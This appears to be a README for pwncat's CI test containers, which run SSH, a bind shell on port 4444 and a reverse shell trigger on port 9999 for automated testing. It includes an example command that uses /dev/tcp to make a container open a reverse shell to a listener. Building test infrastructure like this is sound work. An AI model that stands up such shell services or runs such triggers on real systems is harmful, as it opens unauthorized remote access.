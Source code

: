 # Container Images for pwncat CI/CD-based testing

These container images serve as GitHub Actions "service" containers to provide
bind and reverse shells as well as SSH for linux hosts. This allows us to
point `pytest` at these existing instances and run automated testing.

## Linux Containers (Ubuntu/CentOS)

Each Linux container exposes three ports:

- SSH via Port 22
- Bind Shell via Port 4444
- Reverse Shell Trigger via Port 9999

To trigger a reverse shell, send a line of text to `:9999` containing a host/port
combo. For example:

```sh
echo "$LISTENER_IP:4444" > /dev/tcp/$CONTAINER_IP/9999
```

This will trigger a connection from the container to `$LISTENER_IP` on port `4444`.
This is easiest if both the listener and the vulnerable host are containers.

## Windows Containers

The windows container runs similar services except without the SSH service.
It will start a bind shell on port `4444`, and a reverse shell trigger on `9999`.
The reverse shell trigger behaves in the same way as the Linux version. The
key difference with Windows is that the bind shell can only handle a single
connection at a time. Further connections will hang until the first is closed.
